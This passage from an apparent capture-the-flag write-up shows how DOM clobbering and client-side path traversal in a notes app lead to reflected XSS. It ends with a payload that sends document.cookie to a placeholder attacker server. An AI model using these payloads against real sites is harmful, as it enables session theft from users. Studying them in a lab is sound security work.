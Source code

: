 Looking through the HTML, it becomes clear why.

{% code overflow="wrap" %}

```html
<!-- Remember to comment this out when not debugging!! -->
<!-- <div id="debug-content-section" style="display:none;" class="note-panel">
    <h3>Debug Information</h3>
    <div id="debug-content" class="note-content"></div>
</div> -->
```

{% endcode %}

The developer commented it out in production. Well, what about that DOM clobbering thing?

Let's update the note contents to ensure the element will exist on the page.

{% code overflow="wrap" %}

```html
<p id="username"></p>
<div id="debug-content-section" style="display:none;" class="note-panel">
    <div id="debug-content" class="note-content"></div>
</div>
```

{% endcode %}

When we load the note this time (`http://127.0.0.1/view?note=0c7cb26e-9095-48dc-b984-8cc9fcc76b4c`) it looks a little different. Since the `debug-content` element exists on the page, the output from the `/api/notes/log` call is displayed.

![](./images/11.PNG)

Let's test our path traversal again.

`http://127.0.0.1/view?note=0c7cb26e-9095-48dc-b984-8cc9fcc76b4c&name=....//....//....//contact`

![](./images/12.PNG)

Our input is reflected! Now it's time to try a different URL 😈

We want to add an XSS payload to the `name` parameter without interfering with the CSPT path. The best way to do this is by adding a query parameter, e.g., `/contact?xss=<img src=x onerror=alert(1)/>`, _but_ we need to URL-encode the `?` (or `#`) to ensure it's not processed by the `/view` endpoint.

`http://127.0.0.1/view?note=0c7cb26e-9095-48dc-b984-8cc9fcc76b4c&name=....//....//....//contact%3fxss=<img src=x onerror=alert(1)>`

![](./images/13.PNG)

We popped an alert! Now we'll set up an attacker server to exfiltrate the cookie and update our payload one final time 😌

{% code overflow="wrap" %}

```
http://127.0.0.1/view?note=0c7cb26e-9095-48dc-b984-8cc9fcc76b4c&name=....//....//....//contact%3fxss=<img/src/onerror=fetch('https://ATTACKER_SERVER/?'%2bdocument.cookie)>
```
